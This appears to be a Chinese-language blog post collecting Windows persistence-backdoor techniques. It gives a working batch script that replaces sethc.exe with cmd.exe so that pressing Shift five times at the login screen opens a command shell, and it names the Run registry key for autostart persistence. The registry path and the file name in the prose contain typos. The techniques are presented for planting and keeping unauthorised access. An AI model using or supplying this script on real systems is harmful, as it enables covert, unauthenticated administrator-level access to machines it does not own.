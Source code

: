 ```yaml
---
layout: post
title: 持久化后门维持-Windows(长期更新)
---
```


> 文章长期更新，用来统计收集后门维持的各种方法。



## 0x01 shift后门(替换系统文件)

通过修改`setch.exe`来达到持久化后门

在低版本的windows中，我们可以直接把 *C:\Windows\System32\\* 下 *setch.exe*

替换成我们的后门程序，在登陆界面按5次shift即可出现cmd

![0x01](https://tva1.sinaimg.cn/large/00831rSTly1gcxuu947nsj31500dmabt.jpg)

![0x02](https://tva1.sinaimg.cn/large/00831rSTly1gcy1rc9ccsj314k0lq411.jpg)



![0x03](https://tva1.sinaimg.cn/large/00831rSTly1gcxwxpnwzoj30hy0i6ab8.jpg)

```bash
@echo off
c:
cd\
cd Windows\System32
icacls sethc.exe /grant Administrator:f
del sethc.exe 
copy cmd.exe sethc.exe
pause&&exit
```

保存为.bat文件运行即可留下shift后门

---

###  0x02 注册表自启动

> 最常见的在指定键值添加一个新的键值类型为REG_SZ,数据项中添写需要运行程序的路径即可以启动，此类操作一些较为敏感容易被本地AV拦截，目前也是较为常见的一种方式。

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microft\windows\currentversion\run
```

<img src="https://tva1.sinaimg.cn/large/00831rSTly1gcy2lfca5ej32ls0n617q.jpg" alt="0x04" style="zoom:150%;" />



